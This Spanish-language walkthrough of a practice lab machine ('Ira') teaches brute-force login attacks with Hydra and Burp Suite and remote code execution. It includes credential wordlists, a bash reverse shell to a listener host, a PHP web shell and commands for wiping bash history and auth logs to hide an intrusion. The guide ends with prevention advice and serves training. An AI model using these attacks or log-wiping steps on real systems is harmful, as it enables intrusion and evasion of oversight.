= Ira
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, ira.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh ira.tar
----

== Ataque de Fuerza Bruta

Un ataque de fuerza bruta utiliza el método de prueba y error para adivinar la información de inicio de sesión, las claves de cifrado o encontrar una página web oculta. Los hackers estudian todas las combinaciones posibles con la esperanza de acertar. Aunque todos los ataques de fuerza bruta comparten este principio básico de «prueba y error», existen diferentes tipos de ataques de este tipo, cada uno con su propia metodología y estrategia.

A continuación vamos a ver los tipos de ataques más frecuentes:

=== 1. Ataque de fuerza bruta estándar

Este es el ataque de fuerza bruta en su forma más básica. El atacante intenta todas las combinaciones posibles de contraseñas hasta que se encuentre la correcta. Este método puede ser extremadamente lento y consume muchos recursos, pero también puede ser efectivo si la contraseña es débil, ya que muchas personas siguen usando contraseñas débiles, como "admin123" o "1234,", o practican un mal protocolo de contraseñas, como usar la misma contraseña para varios sitios web. Además, si el atacante realiza un trabajo de reconocimiento mínimo puede descifrar la contraseña potencial de una persona, como el nombre de su equipo deportivo favorito.

=== 2. Ataque de fuerza bruta con diccionario

Un ataque de diccionario es aquel en el que el atacante selecciona un objetivo y luego prueba las posibles contraseñas contra el nombre de usuario de esa persona, usando un software normalmente. Este método es más rápido que un ataque de fuerza bruta estándar, aún así suele llevar mucho tiempo y tiene una baja probabilidad de éxito en comparación con los métodos de ataque más nuevos y efectivos.

=== 3. Ataques de fuerza bruta híbrida 

Un ataque híbrido de fuerza bruta es cuando se combina un método de ataque de diccionario con un simple ataque de fuerza bruta. El atacante comienza con una lista de posibles palabras, luego experimenta con combinaciones de caracteres, letras y números para encontrar la contraseña correcta. Este enfoque permite al atacante descubrir contraseñas que combinan palabras comunes o populares con números, años o caracteres aleatorios, como "SanDiego123" o "Rover2020@".

=== 4. Ataques de fuerza bruta inversa 

Un ataque de fuerza bruta inversa ve a un atacante comenzar el proceso con una contraseña conocida, que generalmente se descubre a través de una violación de la red. Utilizan esa contraseña para buscar una credencial de inicio de sesión coincidente utilizando listas de millones de nombres de usuario. Los atacantes también pueden usar una contraseña débil de uso común, como "Contraseña123#", para buscar una coincidencia en una base de datos de nombres de usuario.

== RCE (Remote Code Execution)

La Ejecución Remota de Código (RCE) es una vulnerabilidad crítica que permite a un atacante ejecutar comandos o código arbitrario en un sistema remoto, normalmente con los permisos del proceso vulnerable. Esta falla puede surgir por errores de programación, configuraciones inseguras o el uso inadecuado de funciones que interactúan con el sistema operativo.

El impacto de un RCE puede ser devastador, ya que en muchos casos permite al atacante tomar el control completo del sistema, acceder a datos sensibles o incluso pivotar a otros sistemas de la red.

Existen múltiples técnicas para explotar esta vulnerabilidad. En nuestro caso, nos centraremos en dos formas comunes de RCE:

=== 1. RCE directo mediante inyección de comandos.

Las aplicaciones web mal configuradas o que no sanitizan correctamente las entradas del usuario pueden ser vulnerables a la inyección de comandos. Por ejemplo, si una aplicación pasa parámetros directamente a la línea de comandos sin validación adecuada.

=== 2. RCE mediante subida de archivos maliciosos.

Este ataque se da cuando una aplicación permite subir archivos, pero no controla adecuadamente el tipo, contenido o extensión del archivo. Si el servidor guarda ese archivo en un lugar accesible públicamente y permite su ejecución, el atacante puede subir un script malicioso (por ejemplo, PHP) y ejecutarlo remotamente.

== Solucionar la máquina

En esta guía vamos a ver, cómo realizar diferentes ataques de fuerza bruta, para después adentrarnos en ataques RCE. Aprenderemos distintas herramientas como hydra o burpsuite, entre otras.

Herramientas:

* https://portswigger.net/burp/communitydownload[Burpsuite]
* https://www.kali.org/tools/hydra/[Hydra]
* https://www.kali.org/tools/netcat/[Netcat]

=== Ataque de Fuerza Bruta

==== Conceptos Básicos

El Intruder de Burpsuite tiene cuatro modos de operar, nosotros utilizaremos dos de ellos, pero me gustaría explicarlos para que quede claro que hace cada uno.

. *Sniper* -> Este modo prueba una lista de payloads en cada posición de forma individual, manteniendo las demás constantes. Es útil para detectar vulnerabilidades como inyecciones SQL o XSS en parámetros específicos. Por ejemplo, si tienes tres parámetros y una lista de 100 payloads, se realizarán 300 solicitudes (100 por cada parámetro).

. *Battering Ram* -> En este se aplica el mismo payload en todas las posiciones marcadas simultáneamente. Sirve para cuando el mismo valor debe estar presente en múltiples campos, como un token que aparece en varios lugares. Por ejemplo, si marcas dos posiciones y tienes una lista de 50 payloads, se realizarán 50 solicitudes, cada una con el mismo payload en ambas posiciones.​

. *Pitchfork* -> Este utiliza diferentes listas de payloads para cada posición, insertando los payloads correspondientes en paralelo. Se utiliza cuando se necesita probar combinaciones específicas de valores relacionados, como pares de usuario y contraseña correspondientes. Por ejemplo, si tienes dos listas de 100 elementos cada una, se realizarán 100 solicitudes, combinando el primer elemento de cada lista, luego el segundo, y así sucesivamente.

. *Cluster Bomb* -> Genera todas las combinaciones posibles entre múltiples listas de payloads, prueba cada combinación en las posiciones correspondientes. Es ideal para ataques de fuerza bruta donde se desconoce la relación entre los valores, como probar todas las combinaciones posibles de usuarios y contraseñas. Por ejemplo, si tienes una lista de 100 usuarios y otra de 100 contraseñas, se realizarán 10,000 solicitudes (100 x 100).

==== 1. Ataque de fuerza bruta estándar

Este, al ser un ataque por repetición en el que no se utiliza ningún tipo de software, prefiero dar recomendaciones en caso que queramos probar a realizarlo, ya que es muy tedioso y poco eficiente. Por ello, vamos a ver los usuarios y contraseñas más usados en un panel de login, además de algunas nociones básicas para encontrar información.

.Usuarios más usados
[%collapsible]
====
[source,text]
----
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
----
====

.Contraseñas más usadas
[%collapsible]
====
[source,text]
----
123456
123456789
12345678
password
qwerty123
qwerty1
111111
12345
secret
123123
1234567890
1234567
000000
qwerty
abc123
password1
iloveyou
11111111
dragon
monkey 
----
====

Hay ocasiones en las que no sabremos la identidad del usuario, pero podriamos hacernos a la idea si hacemos un ataque de OSINT a la víctima, conociendo: 

* *RRSS*

** Examinar perfiles públicos en plataformas como Facebook, LinkedIn, Twitter e Instagram para obtener nombres, fechas de nacimiento, intereses y otros datos personales que puedan estar relacionados con contraseñas. Identificar nombres de mascotas, equipos deportivos favoritos, fechas significativas, etc.

* *Búsqueda en Motores de Búsqueda*

** Utilizar operadores avanzados de búsqueda en Google para encontrar información relacionada con la víctima, como correos electrónicos, nombres de usuario y publicaciones en foros. Ejemplo: _site:linkedin.com/in/ "víctima"_

* *Revisión de Brechas de Seguridad*

** Consultar bases de datos de filtraciones de datos para verificar si la información de la víctima ha sido comprometida anteriormente. Existen herramientas como https://haveibeenpwned.com/[Have I Been Pwned] que pueden ser útiles.

* *Análisis de Metadatos*

** Descargar y analizar documentos públicos (PDFs, imágenes, etc.) asociados a la víctima para extraer metadatos que puedan revelar nombres de usuario, software utilizado, fechas y más. Para ello recomiendo herramientas como https://github.com/ElevenPaths/FOCA[FOCA].

* *Observación de Patrones de Contraseñas*

** Basándose en la información recopilada, inferir posibles patrones de contraseñas que la víctima podría utilizar, como combinaciones de nombres y fechas (ejemplo: Juan1990).

También recomiendo usar unas cuantas herramientas además de las anteriores:

https://www.kali.org/tools/theharvester/[TheHarvester] -> Recopila correos electrónicos, subdominios y nombres de usuario asociados a un dominio específico.

https://www.kali.org/tools/maltego/[Maltego] -> Permite visualizar relaciones entre personas, correos electrónicos, dominios y más mediante gráficos.

https://www.kali.org/tools/spiderfoot/[SpiderFoot] -> Automatiza la recopilación de información sobre una entidad específica, incluyendo direcciones IP, nombres de usuario y más.

https://www.kali.org/tools/sherlock/[Sherlock] -> Sirve para localizar el nombre de usario en distintas plataformas.

https://osintframework.com/[OSINT Framework] -> Un conjunto de herramientas categorizadas para facilitar la investigación OSINT.

https://www.kali.org/tools/recon-ng/[Recon-ng] -> Framework de reconocimiento web que ofrece módulos para recopilar información sobre objetivos.

==== 2. Ataque de fuerza bruta con diccionario

En este ataque, aunque ya fue visto en la anterior máquina, lo vimos a través de wpscan. En cambio en esta lo veremos con hydra y burpsuite.

Kali viene con varios diccionarios preinstalados en la ruta /usr/share/wordlist. A mi en especial me gusta mucho el de https://github.com/danielmiessler/SecLists[Seclists], ya que es muy completo. Pero hay que saber usar diccionarios, ya que si usamos primeramente unos muy fuertes nos va a tardar mucho, ya que la desventaja principal de los ataques de fuerza bruta es que usan muchos recursos del ordenador donde se ejecuta y dependiendo de eso, tardará más o menos.

===== Hydra

Cómo no conocemos ni el usuario ni la contraseña, tendremos que usar diccionarios en ambos campos. Pero antes de esto deberemos hacer un estudio de la página, para saber si usa POST o GET, y ver los IDs de los campos:

Si le damos al F12 podremos inspeccionar la estructura de la página, viendo que en los campos del usuario y contraseña, sus IDs son *user* y *pass*.



Si le damos a Network y enviamos unas credenciales erroneas, veremos que se envían mediante *POST*, además de poder ver la url que será importante para el siguiente comando. Además de conocer el mensaje de error que nos devuelve para poder filtrar, en este caso *"Credenciales incorrectas."*.



Nuestro comando en hydra es:

[source, bash]
----
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2024-197_most_used_passwords.txt 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-L* -> Lista de usuarios
* *-P* -> Lista de contraseñas
* *172.34.0.2* -> Ataca el host objetivo
* *http-post-form* -> Define el método del formulario
* *"/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."*
** _la ruta del login_
** _los parámetros POST_
** _el mensaje que indica un fallo de login_



Probamos las credenciales que ha encontrado.





De esta forma, podremos acceder mediante el uso de diccionarios, pero en este caso las credenciales eran sencillas, en peores casos tendremos que esperar horas, aunque depende del hardware del ordenador donde se ejecute.

===== Burpsuite

Primeramente recomiendo instalar FoxyProxy en nuestro navegador. Cuando estemos dentro de este, deberemos irnos a Proxies y crear uno nuevo dándole a Add. Deberemos poner la siguiente configuración, para interceptar con Burpsuite en local desde el puerto 8081. Además deberemos añadir en la parte de patrones el que aparece en la siguiente imagen:



Nos vamos a nuestra página donde le daremos al logo de FoxyProxy si lo hemos puesto en la barra de herramientas y le damos al proxy que hemos creado.



Ahora abrimos Burpsuite y creamos un proyecto temporal, ya que tendremos la versión de la comunidad, iniciándolo por defecto. Cuando esté abierto, nos vamos a la configuración del proxy donde pondremos la IP y puerto que hemos configurado en FoxyProxy. 



En Burpsuite, en la parte de Proxy, le damos a *Intercept off* para pasarlo a *on* y comenzar a capturar el tráfico. Y en nuestra página ponemos cualquier credenciales y le damos a entrar, enviándonos a Burpsuite directamente.





En Burpsuite, nos aparecerá la petición POST que hemos capturado, donde podremos ver los IDs de los campos, por lo que para atacar desde Burpsuite, deberemos pasar esta petición al intruder, le damos clic derecho sobre la petición y la enviamo a este:





Una vez en el Intruder, deberemos darle al desplegable de arriba y cambiarlo a *Cluster bomb attack*, ya que sirve para ataques que combinan usuarios y contraseñas. Después en los IDs que están en la parte inferior, borraremos el usuario y contraseña que hemos puesto antes en el login, y después de cada símbolo de igual le daremos a *Add §*.



A la derecha nos pedirá igresar un payload, es decir, los diccionarios y deberemos poner el correspondiente payload en la posición correcta. En el 1 va el de los usuario y le pongo el diccionario de nombres de usuario frecuentes y en el 2 va la contraseña y por ello le pongo el diccionario de contraseñas sencillas.





Además en la configuración del Intruder deberemos cambiar dos cosas:

* *Redirections* -> Deberemos poner Always para aceptar las redirecciones.



* *Grep - Extract* -> Como hemos hecho antes en el caso de Hydra, deberemos indicarle el mensaje de error. Principalmente se usa para delimitar cuando empieza y cuando acaba el ataque. Por desgracia, no nos aparecerá con nuestra página. Por lo que deberemos estar atentos al cambio de longitud.

Una vez dicho esto le damos al botón naranja para iniciar el ataque, empezará a probar tanto usuarios como contraseñas hasta que dé con el correcto, podemos ver el proceso y cuando cambie la longitud, la primera significa que ha entrado con esas, ya que hemos puesto que acepte redirecciones.



Cuando quitemos la interceptación del proxy, podremos ver cómo hemos entrado:



==== 3. Ataques de fuerza bruta híbrida

===== Hydra

Vamos a crear un diccionario solo con las palabras más comunes y usando *crunch*, de esta forma crearemos un diccionario híbrido más dedicado.

Tabla de caracteres especiales de crunch:

[cols="1,1"]
|===
|Símbolo|Significado

|@
|Minúsculas (a-z)

|,
|Mayúsculas (A-Z)

|%
|Números (0-9)

|^
|Símbolos (!@$%, etc.)
|===

Por lo que realizamos los siguientes comandos, obteniendo un diccionario personal al que le podemos añadir entradas en caso de encontrar información más relevante.

[source,bash]
----
$ crunch 8 8 admin%%% >> diccionario.txt
$ crunch 9 9 qwerty%%% >> diccionario.txt
$ crunch 7 7 @@@@123 >> diccionario.txt
$ crunch 7 7 user^^^ >> diccionario.txt
----

En este ataque vamos a atacar directamente a la cuenta *admin* con hydra. De esta forma veremos el uso del parametro -l y como actuar en caso de conocer al usuario.

[source,bash]
----
hydra -l admin -P diccionario.txt 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-l* -> En este parámetro ponemos el nombre del usuario.



===== Burpsuite

En este caso, realizaremos lo ya visto anteriormente hasta la parte del Intruder. En este caso, vamos a usar el Sniper attack, donde se usa en una posicion, un objetivo. Deberemos añadir los símbolos en la parte de la contraseña.



En este caso vamos a poner unas cuantas palabras en la parte de payload, añadiendo una por una, y luego añadiremos a cada una distintos sufijos.



En la parte de Payload processing, añadiremos los sufijos, para ello le daremos a añadir, en la pestaña buscamos "Add sufix" y ponemos el que queramos, además podemos ponerles incluso prefijos para hacerlo más completo. Pero deberemos activarlos según queramos, ya que si todos están activos se acumulan y eso no lo queremos, por lo que voy a ir uno por uno.





Al final nos debe quedar algo así:



También es importante recordar que en la configuración hay que cambiar lo de las redirecciones a siempre. Dicho esto, vamos a probar el ataque:

Si probamos con el primer sufijo, ninguno es correcto, por lo que queda descartado. De esta forma deberemos probarlo con cada uno.





Podemos observar que con el último sufijo que hemos introducido es correcto, ya que a variado la longitud. Y cuando quitemos el proxy ya estermos dentro.

==== 4. Ataques de fuerza bruta inversa

===== Hydra

En este caso, deberemos usar una contraseña que ya sabemos que alguien utiliza, en nuestro caso va a ser *qwerty123*, pero no conocemos al usuario por lo que podemos usar algún diccionario de los anteriores mencionados o crear uno con los usuarios más utilizados.

[source,bash]
----
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p qwerty123 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-p* -> En este parámetro ponemos la contraseña que creamos correcta.



===== Burpsuite

Como ya hemos visto antes, deberemos hacer lo mismo hasta el punto del Intruder, donde añadiremos los símbolos en el usuario y meteremos un payload para adivinarlo.





Como podemos observar el usuario correcto es *admin*.

=== RCE

Una vez dentro, gracias a los ataques de fuerza bruta, en el panel de administrador se puede acceder a una linea de comandos para administrar desde la web, y también se puede acceder a una página para subir archivos y poder verlos mediante un enlace. A continuación vamos a ver estos dos tipos de ataque RCE:

==== 1. RCE directo mediante inyección de comandos.

Teniendo a nuestra disposición una terminal, vamos a recolectar información para luego hacer una reverse shell y poder efectuar comando con mayor tranquilidad.

image::assets/RCE/CMD/Página.png[Página,align=center]

===== Conocer estructura de archivos

* *ls -la* -> Con este comando podemos ver todos los archivos del directorio actual, conociendo sus permisos, usuario y grupo.



* *pwd* -> Podemos saber en qué directorio estamos



===== Usuarios

* *whoami* -> Podemos conocer que usuario somos. Podemos ver que somos root, por lo que podemos hacer de todo.



* *id* -> Podemos ver los permisos que tiene nuestro usuario. 



* *cat /etc/passwd* -> En este archivo se encuentran los usuarios que existen en el sistema



===== Sistema Operativo

* *uname -a* -> Nos dice el sistema operativo en el que se encuentra. Cómo está en un docker dentro de un Kali, podemos ver lo siguiente.



===== Reverse Shell

Al ser root, podemos hacer todo lo que queramos, cómo si queremos borrar todo el sistema, pero también podemos mantenernos persistentes en él o acceder para tener una terminal más comoda. Hay miles de cosas que podemos hacer en está situación, por lo que vamos a ver cómo realizar una reverse shell desde la web.

Abrimos una terminal con netcat y nos ponemos a la escucha:



En la web ponemos el siguiente comando:

[source,bash]
----
bash -c 'bash -i >& /dev/tcp/192.168.1.20/4444 0>&1'
----



Una vez hecho esto ya estaremos conectados con netcat como root:



Ya que somos root, y estamos con infltrados en el sistema, he pensado que estaría bien tener en cuenta algunas prácticas para limpiar nuestro rastro:

* *1. Crear directorios ocultos*

[source,bash]
----
$ mkdir /dev/shm/.secreto
$ ls -la /dev/shm/
----

Para eliminar el directorio después de usarlo:

[source,bash]
----
$ rmdir /dev/shm/.secreto
----

* *2. Borrar historial de Bash*

Podemos ver el historial actual con history.

** Eliminar la variable de entorno HISTFILE:

[source,bash]
----
$ unset HISTFILE
----

** O redirigir el historial a /dev/null:

[source,bash]
----
$ HISTFILE=/dev/null
$ export HISTFILE=/dev/null
----

** Configurar para no guardar el historial
[source,bash]
----
$ HISTSIZE=0
$ HISTFILESIZE=0
----

** Eliminar el historial con:
[source,bash]
----
$ history -c
$ cat /dev/null > ~/.bash_history && history -c && exit
----

* *3. Limpiar archivos de registro*

Para evitar dejar rastros en los registros del sistema, podemos truncarlos en lugar de eliminarlos de esta forma no levantaremos sospechas:

[source,bash]
----
$ truncate -s 0 /var/log/auth.log
$ echo '' > /var/log/auth.log
$ cat /dev/null > /var/log/auth.log
----

También podemos usar shred para sobrescribir el archivo:

[source,bash]
----
$ shred -zu /var/log/auth.log
----

* *4. Uso de herramientas*

https://github.com/sundowndev/covermyass[Covermyass] es un script automatizado para borrar huellas, limpiar archivos de registro y desactivar el historial:

[source,bash]
----
$ curl -sSL https://github.com/sundowndev/covermyass/releases/latest/download/covermyass_linux_amd64 -o ./covermyass
$ chmod +x ./covermyass
$ ./covermyass
----

Con opciones para borrar registros y desactivar el historial de Bash y autenticación.

==== 2. RCE mediante subida de archivos maliciosos.

Ahora nos iremos a la parte de subir archivos, donde primeramente provaremos a subir uno de ejemplo:

image::assets/RCE/archivos/Página.png[Página,align=center]

Voy a subir un archivo pdf para comprobar si se pueden ejecutar los archivos:







Como podemos observar, podemos abrir estos archivos, por lo que vamos a realizar una web shell con permisos de root:



De esta forma, a través de este archivo podremos ejecutar comandos como administrador, deremos usar lo siguiente en la url del archivo "?cmd=(comando)", así enviamos el comando para que el GET lo obtenga y lo pase.





Y ya podemos hacer lo que queramos como root.

==== Aclaración

En este último hemos sido root todo el rato, pero eso casi nunca es así, por lo que en el siguiente pecado aprenderemos a escalar privilegios mediante capabilities u otras formas.

== ¿Cómo prevenir?

=== Fuerza Bruta

==== 1. Usar contraseñas seguras

Como hemos visto, las credenciales se han obtenido fácilmente debido a su baja seguridad. Por ello, se recomienda evitar contraseñas predecibles como nombres propios, fechas de nacimiento o palabras comunes. Además, es buena práctica cambiarlas periódicamente para reducir riesgos en caso de filtración.

==== 2. Implementar autenticación multifactor (MFA)

La autenticación multifactor añade una capa adicional de seguridad al requerir, además de la contraseña, una segunda forma de verificación, como un código enviado al teléfono móvil o generado por una aplicación. Esto dificulta el acceso incluso si la contraseña ha sido comprometida.

==== 3. Limitar los intentos de inicio de sesión

Limitar el número de intentos de inicio de sesión es una medida eficaz contra los ataques de fuerza bruta. Estos ataques prueban múltiples combinaciones de credenciales en poco tiempo, por lo que establecer un límite de intentos y bloquear temporalmente la cuenta tras varios fallos puede detenerlos de forma efectiva.

==== 4. Usar sistemas de detección (IDS) y prevención (IPS) de intrusiones

Los IDS e IPS son herramientas clave para detectar y bloquear comportamientos sospechosos, como múltiples intentos de acceso fallidos. Un IDS actúa como sistema pasivo, alertando sobre actividades anómalas, mientras que un IPS puede intervenir activamente para bloquear el tráfico malicioso.

Ejemplos:

* Snort
* Suricata

==== 5. Implementar restricciones por IP

Restringir el acceso a servicios críticos mediante filtros por dirección IP o ubicación geográfica ayuda a reducir la superficie de ataque. De este modo, solo se permite el acceso desde ubicaciones de confianza.

==== 6. Usar CAPTCHAs

Los CAPTCHA son pruebas diseñadas para diferenciar a humanos de bots. Al pedir al usuario que resuelva tareas simples como identificar imágenes o escribir un texto distorsionado, se evita que scripts automatizados abusen de formularios o sistemas de autenticación.

==== 7. Aplicar limitación de velocidad (Rate Limiting)

Este mecanismo restringe el número de solicitudes permitidas desde una IP o usuario en un intervalo de tiempo. Al aplicarlo, se reduce la eficacia de los ataques automatizados, ya que impide probar grandes volúmenes de credenciales rápidamente.

==== 8. Utilizar un cortafuegos de aplicaciones web (WAF)

El WAF protege las aplicaciones web examinando el tráfico entrante. Detecta y bloquea patrones sospechosos antes de que lleguen a la aplicación, como intentos masivos de inicio de sesión o inyecciones maliciosas.

=== RCE

==== 1. Validación y Sanitización de Entradas

La mayoría de los ataques RCE aprovechan vulnerabilidades como la inyección o deserialización insegura. Para prevenirlos, es fundamental validar y sanear todas las entradas del usuario, evitando el uso de funciones peligrosas como eval() o exec() que ejecutan contenido arbitrario.

==== 2. Gestión de Parches y Actualizaciones

Mantén sistemas operativos, aplicaciones y dependencias siempre actualizados. Muchas vulnerabilidades que permiten RCE ya son conocidas y cuentan con parches disponibles.

==== 3. Principio de Mínimos Privilegios

Durante las pruebas, observamos que los comandos se ejecutaban con privilegios de root. Para evitar esto, es importante que los servicios se ejecuten con los permisos mínimos necesarios, reduciendo así el impacto de un posible ataque.

==== 4. Desactivación de Funcionalidades Innecesarias

Deshabilita módulos, extensiones o plugins que no sean estrictamente necesarios. Cada componente extra aumenta la superficie de ataque y puede introducir vulnerabilidades.

==== 5. Gestión Segura de Memoria

Algunos ataques RCE explotan errores como los desbordamientos de búfer. Realiza análisis de seguridad periódicos para identificar fallos en la administración de memoria y corregirlos a tiempo.

==== 6. Inspección del Tráfico de Red

Los ataques RCE suelen realizarse de forma remota a través de la red. Utiliza herramientas de inspección profunda del tráfico (como WAF o firewalls de nueva generación) para bloquear intentos de explotación y detectar actividad remota sospechosa.

==== 7. Control de Acceso y Segmentación

Un atacante que consigue ejecutar código remotamente puede intentar moverse lateralmente en la red. La segmentación de red, el control de acceso y una arquitectura de confianza cero ayudan a limitar el alcance del atacante y proteger los sistemas más críticos.

----
"Existen dos tipos de empresas: las que han sido hackeadas y las que aún no saben que fueron hackeadas."

- John Chambers
----